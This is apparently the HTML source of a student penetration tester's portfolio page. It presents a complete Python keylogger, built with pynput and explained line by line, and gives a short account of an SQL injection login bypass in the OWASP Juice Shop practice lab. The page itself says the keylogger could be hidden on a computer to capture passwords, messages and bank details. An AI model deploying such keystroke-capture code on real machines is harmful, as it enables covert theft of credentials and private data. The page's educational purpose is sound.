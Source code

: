  <html>
  <head>
     <link rel="stylesheet" href="index.css">
  </head>
   <body>
    <Header id="section-Expo"> 
      <img class="img_Me" src="images/8626f4a9-f60a-4198-b2f0-02b9067687d1.jpeg" width="300"/>
     <div class="Expo-MeDiv">
      <p class="Expo_Me" >Hello, I am a young inspiring pen tester that wants to make a spot in industry, every since I gotten the idea of ethical hacking i've been try to learn and gain experience of looking and exporting vulnerabilities online, this portfolio will show what experience and skills I learned over the time in the internet, from trustrd websites that teaches you how to use kali Linux for pen testimg websites and files, to my cyber security class that teches me the basics of the subjet, to on hand experience of what I learned and trying to find vulnerabilities all over in the web, I will show my skills to anyone reading this page to prevail my career. </p>
     </div>
    </Header>

<div class="Projets_section">
   <h1 class="Projets_title">---Projets---</h1>
</div>

<div class="Projets_name">
 <h2>KeyLogger</h2>
 <h2>Made and Updated by: 3/18/2025--3/24/2025</h2>
</div>

<div class="Projets_imgAndDet">
 <div class="Code_keylog">
  <img src="images/keylogger-768x403.png" width="450" height="450" />
   <pre width="450" height="300">
    <code width="450" height="300"> 
   from pynput import keyboard
     
def keyPressed(key):
    print(str(key))
    with open("keyfule.txt", 'a') as logKey:
        try:
            char = key.char
            logKey.write(char)
        except:
            print("Error getting char")
        if key == keyboard.Key.enter:
            logKey.write("\n")
        elif key == keyboard.Key.space:
            logKey.write(' ')
            
if __name__ == "__main__":
    listener = keyboard.Listener(on_press=keyPressed)
    listener.start()
    input()
   
  </code>
 </pre>
</div>

 <details>
  <h3>Technical Details</h3>
  <ul style="list-style-type:square">
   <li><strong>Programming Language:</strong>Python</li>
   <li><strong>Frameworks/Libraries:</strong>Pynput</li>
   <li><strong>Key Features:</strong>
    <ul style="list-style-type:square">
     <li>Cross-platform support (Windows, macOS, Linux)</li>
     <li>Simple API for listening to keyboard events</li>
     <li>Ability to simulate keyboard input</li>
    </ul>
   </li>
  </ul>
 </details>
</div>

<div class="Projets_Expo">
 <p>Before I start, I obtained this Keylogger from a YouTube tutorial, As a beginner, I try to learn from resources that are readily available to me. That way, I can understand how things work on my own without constantly needing to seek help. So I have added 2 new modifications to impove on less confusion in the log, but too the point. 
  <br>
  <br>
  This is a basic Keylogger that records keystrokes that have been pressed, this can be used of course to be hidden into a computer and log any sensitive information that was typed on said computer, like emails with passwords, private text messages, Bank info, and more. Here I will break down my simple code.</p>
</div>

<br>
<br>

<div class="code_display_A" width=150>
 <pre class="code">
  <code>
  def keyPressed(key):
    print(str(key))
    with open("keyfule.txt", 'a') as logKey:
  </code>
 </pre>

<p class="code_Expo">Here is the start of the function where I set the parameter as <span class="word_code">Key</span>, then in the next line it take any key pressed to a string so it can be printed in the text file that is existing (or made its self if theres no text file with that same name) then adds a append tool here <span class="word_code">'a'</span> so any keystrokes will be added im the file, and it will used as <span class="word_code">logKey</span>.</p>
</div>

<br>

<div class="code_display_A" width=150>
 <p class="code_Expo">Now the <span class="word_code">'Try'</span> is used to handle exceptions that occur when getting a character representation of a key by using <span class="word_code">'key.char'</span>, except for special key, if it's is one it will not be added in the txt file and will give an error "Error getting char". </p>

 <pre class="code">
  <code>
    try:
            char = key.char
            logKey.write(char)
        except:
            print("Error getting char")
  </code>
 </pre>
</div>

<br>

<div class="code_display_A" width=150>
  <pre class="code">
   <code>
    if key == keyboard.Key.enter:
            logKey.write("\n")
        elif key == keyboard.Key.space:
            logKey.write(' ')
   </code>
  </pre>

 <p class="code_Expo"> Now these last two blocks I personal added so theres less confusion on the txt file, because without them the letters will be jumbled up. 
  <br>
  <br>
  so both <span class="word_code">'if'</span> and <span class="word_code">elif</span> statements are used just in case the ENTER or SPACE key was pressed, it will still display the error line in the console log but will still skip a line or make space once pressed in the txt file.</p>
 </div>
 
<br>
<br>

 <div class="Projets_name">
 <h2>OWASP Juice Shop:⭐</h2>
 <h2>Made and Updated by: 4/21/2025--4/22/2025</h2>
</div>

<img src="images/OWASP JSP IMG/OWASP JSP.jpg" width="100%" height="250"/>

<p>OWASP Juice Shop is a web application that has built-in vulnerabilities covering the OWASP Top Ten and beyond, it is use for practice finding and exploiting web vulnerabilities in a safe, legal environment. 
<br>
<br>
It is used for training and learning web application security, penetration testing, and secure coding practices. I will document the level 1 difficulties to show what I already know and what I learned using OWASP Juice Shop, now a few things were new to me so I had to get some outside help, like AI for hints, websites that already cover the different CTF's, and Youtube videos explaining what to do, but that one of the point of Pen testing, going around the web to find and use different sources and tools to find the vulnerabilities and make them stronger.</p>

<details>
 <ul style="list-style-type:square">
  <li><strong>Application:</strong> Docker</li>
  <li><strong>Sources:</strong> 
   <ul style="list-style-type:square">
    <li> <a href="https://owasp.org/www-project-juice-shop/">owasp.org</a> </li>
    <li> <a href="https://github.com/juice-shop/juice-shop?tab=readme-ov-fi">github.com/juice-shop</a> </li>
   </ul>
  </li>
 </ul>
</details>
<br>
<br>
<h3 style="display: inline-block; border-bottom: 3px solid #ace34d; padding-bottom: 4px; color: #ace34d;">Injection</h3>
 <br>
  <h2 style="display: inline-block; border-bottom: 3px solid #ace34d; padding-bottom: 4px; color: #ace34d;">Login Admin: ⭐⭐</h2>
  
   <div class="code_display_A" width=150>
    <img src="images/OWASP JSP IMG/Login Admin.JPG">
     <p>Here is first thing I have done when I open the page, it was a simple SQL Injection, which is a common login Vulnerability where a attacker Injects 
 a malicious crafted input in the username or password input boxes to gain unauthorize access to a admin account or someone with higher power, this is one of the many in injection vulnerabilities that a web application can have.</p>
   </div>

   <p>I learned SQL Injections from a website named <a href="https://hacksplaining.com/lessons">Hacksplaining</a>, where its a place where you can learn hacking skills and vulnerabilities, it also teaches how to fix vulnerabilities in code and more, and does short quiz after a summary of the Vulnerability. now the first lessons on the site is web application vulnerabilities, so that where I learned SQL Injections.</p>

   <div class="code_display_A" width=150>
    <video loop="" autoplay="" src="Videos/OWASP JSP VIDS/Admin_log.mp4" width="150" height="50"></video>
     
   </div>
  
  </body>
 </html>
